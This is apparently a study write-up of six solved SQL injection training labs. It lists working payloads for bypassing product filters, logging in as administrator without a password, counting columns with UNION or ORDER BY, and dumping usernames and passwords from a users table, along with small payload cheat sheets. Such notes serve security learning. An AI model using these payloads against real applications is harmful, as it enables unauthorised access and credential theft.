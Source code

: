 
## 🤫 Lab 1 - Retrieving Hidden Data via SQL Injection

**Lab:** SQL Injection Vulnerability allows retrieving hidden data  
**Status:** ✅ Solved  
**Target:** Display unreleased products via SQL Injection

### Lab Context

The lab contains a SQL injection vulnerability in the product category filter. Query structure:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

### Goal

- ✅ Exploit SQL Injection to bypass filter and display unreleased products.

### Basic Injection Strategy

Use:

```
https://insecure-website.com/products?category=Gifts'--
```

Which turns the query into:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

### OR-Based Bypass

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

### Injection Cheat Sheet

| Type        | Payload     | Effect                      |
|-------------|-------------|-----------------------------|
| Comment     | `'--`       | Comments out the query      |
| Boolean OR  | `' OR 1=1--`| Bypasses condition check    |

---

## 💉 Lab 2 - Login Bypass via SQL Injection

**Lab:** SQL Injection Vulnerability Allowing Login Bypass  
**Status:** ✅ Solved  
**Target:** Log in as `administrator` by bypassing authentication

### Attack Example

Payload for username:

```sql
administrator'--
```

Backend transforms to:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

Also possible:

- Username: `administrator`
- Password: `' OR 1=1 --`

---

## 🔍 Lab 3 - Determining Number of Columns via UNION

**Lab:** SQL injection UNION attack, determining the number of columns  
**Status:** ✅ Solved  
**Target:** Discover column count using UNION

### Techniques

- Try increasing NULLs:
  ```
  '+UNION+SELECT+NULL--  
  '+UNION+SELECT+NULL,NULL--  
  ```

- Use ORDER BY:
  ```
  ' ORDER BY 1--  
  ' ORDER BY 3--  
  ```

---

## 🔍 Lab 4 - Finding Text-Compatible Column

**Lab:** SQL injection UNION attack to find text column  
**Status:** ✅ Solved  
**Target:** Leak usernames/passwords

### Steps

1. Determine columns:  
   ```
   '+UNION+SELECT+NULL,NULL-- 
   ```

2. Find text support:  
   ```
   '+UNION+SELECT+'abc',NULL--  
   '+UNION+SELECT+NULL,'abc'--  
   ```

3. Final payload:
   ```
   '+UNION+SELECT+NULL,username||'*'||password+FROM+users--
   ```

---

## 🧠 Lab 5 - Retrieve Data From Other Tables

**Lab:** SQL injection UNION attack, retrieving data from other tables  
**Status:** ✅ Solved  
**Target:** Extract usernames/passwords from `users` table

### Process

1. Columns count:  
   ```
   ' UNION SELECT NULL,NULL-- 
   ```

2. Find text columns:  
   ```
   ' UNION SELECT 'abc','def'-- 
   ```

3. Final payload:  
   ```
   ' UNION SELECT username, password FROM users-- 
   ```

---

## 💻 Lab 6 - Retrieve Multiple Values in One Column

**Lab:** SQL injection UNION attack with string concatenation  
**Status:** ✅ Solved  
**Target:** Extract usernames/passwords into a single column

### Process

1. Check text column:
   ```
   '+UNION+SELECT+NULL,'abc'-- 
   ```

2. Combine data:
   ```
   '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
   ```

### String Concatenation Cheats

| DBMS        | Syntax                        |
|-------------|-------------------------------|
| Oracle      | `'a'||'b'`                    |
| PostgreSQL  | `'a'||'b'`                    |
| MySQL       | `CONCAT('a','b')`             |
| Microsoft   | `'a' + 'b'`                   |
